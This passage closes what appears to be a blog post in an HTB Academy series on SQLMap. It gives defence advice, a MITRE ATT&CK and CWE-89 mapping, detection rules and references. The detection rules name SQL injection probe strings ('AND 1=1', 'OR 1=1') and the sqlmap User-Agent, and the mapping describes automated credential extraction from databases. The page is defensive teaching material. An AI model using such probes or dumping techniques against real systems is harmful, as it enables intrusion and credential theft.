*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1003` |
| **Common Weakness Enumerations** | `CWE-89` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Automated SQL injection scanning and exploitation |
| [`T1003`](https://attack.mitre.org/techniques/T1003/) | **OS Credential Dumping** | `Credential Access` | Automated extraction of database schemas, tables, and credentials |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-89`: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Detect default SQLmap User-Agents (`sqlmap/X.X...`) and characteristic heuristic probe patterns (`AND 1=1`, `OR 1=1`).
- Deploy Web Application Firewall (WAF) rate limits triggering IP blocks on high-frequency error-generating query streams.
- Audit database query volumes per web request to prevent bulk table dumping.


---

## Authoritative References & Recommended Reading

- [HTB Academy: SQLMap Essentials](https://academy.hackthebox.com/module/58) — *Official Hack The Box curriculum track*
- [SQLmap Official Documentation & User's Manual](https://github.com/sqlmapproject/sqlmap/wiki) — *Full manual of parameters, techniques, and tamper scripts*
- [OWASP Testing for SQL Injection (WSTG-INPV-05)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection) — *Methodological testing reference*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-17-sql-injection-fundamentals/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 17: SQL Injection Fundamentals & Exploitation</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 18 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-19-password-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 19: Password Attacks & Credential Harvesting</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
